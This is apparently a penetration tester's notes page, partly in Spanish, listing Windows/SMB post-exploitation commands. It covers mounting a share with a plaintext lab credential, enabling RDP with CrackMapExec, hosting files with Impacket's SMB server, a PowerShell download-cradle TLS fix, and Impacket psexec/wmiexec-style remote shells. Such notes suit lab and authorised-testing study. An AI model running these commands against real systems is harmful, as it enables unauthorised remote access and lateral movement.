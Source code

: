 # Utils

<pre class="language-bash"><code class="lang-bash"><strong># Mount a shared smb folder in linux
</strong>mount -t cifs //10.10.10.182/Data /mnt/data -o username=r.thompson,password=rY4n5eva,domain=cascade.local,rw

<strong># Enable RDP with admin creds
</strong><strong>crackmapexec smb (ip-machine) -u (admin-user) -p (admin-pass) -M rdp -o action=enable
</strong><strong>
</strong><strong># Crear servidor smb con kali
</strong>impacket-smbserver &#x3C;Name of the folder> &#x3C;path> -smb2support
impacket-smbserver smbFolder $(pwd) -smb2support
<strong>
</strong><strong># Error al descargar con (New-Object System.Net.WebClient).downloadString('someurl')
</strong>#Excepción al llamar a "DownloadString" con los argumentos "1": "Anulada la solicitud: No se puede crear un canal
#seguro SSL/TLS."
[Net.ServicePointManager]::SecurityProtocol = "tls12, tls11, tls" # Poner eso en la powershell

</code></pre>

## Impacket

{% embed url="https://thehackerway.com/2021/05/17/network-hacking-con-impacket-parte-2/" %}

```bash
# Remote access With admin credentials
psexec.py <domain-name>/<User>:<Password>@<ip> cmd
smbexec.py <domain-name>/<User>:<Password>@<ip>
wmiexec.py <domain-name>/<User>:<Password>@<ip>
dcomexec.py -object MMC20 <domain-name>/<User>:<Password>@<ip>
```
